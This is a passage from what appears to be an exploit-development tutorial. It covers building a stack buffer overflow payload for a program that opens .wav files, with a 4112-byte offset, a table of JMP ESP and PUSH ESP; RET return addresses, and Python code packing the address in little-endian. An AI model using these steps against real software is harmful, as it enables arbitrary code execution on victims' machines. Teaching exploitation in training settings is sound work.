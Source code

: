 Tip: It is advised as a best practice to add a comment above any shellcode with the command used to generate it, in case we want to modify it or regenerate it in the future, or if we just wanted to know what it will execute.

***

### The Final Payload

Now that we have our shellcode, we can write the final payload that we'll write to the `.wav` file to be opened in our program. So far, we know the following:

1. `buffer`: We can fill the buffer by writing `b"A"*offset`
2. `EIP`: The following 4 bytes should be our return address
3. `buf`: After that, we can add our shellcode

In the previous section, we've found multiple return addresses that can work in executing any shellcode we write on the stack:

| `ESP`      | `JMP ESP`  | `PUSH ESP; RET` |
| ---------- | ---------- | --------------- |
| `0014F974` | `00419D0B` | `0047D4F5`      |
| -          | `00463B91` | `00483D0E`      |
| -          | `00477A8B` | -               |
| -          | `0047E58B` | -               |
| -          | `004979F4` | -               |

Any of these should work in executing the shellcode we write on the stack (feel free to test some of them). We will start with the most reliable one, `JMP ESP`, and we'll pick the first address `00419D0B` and write it as our return address.

To convert it from `hex` to an address in Little Endian, we'll use a python function called `pack` found in the `struct` library. We can import this function by adding the following line at the beginning of our code:

Code: python

```python
from struct import pack
```

Now we can use `pack` to turn our address into its proper format, and use '`<L`' to specify that we want it in Little Endian formatting:

Code: python

```python
    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
```

***

### Shellcode Padding

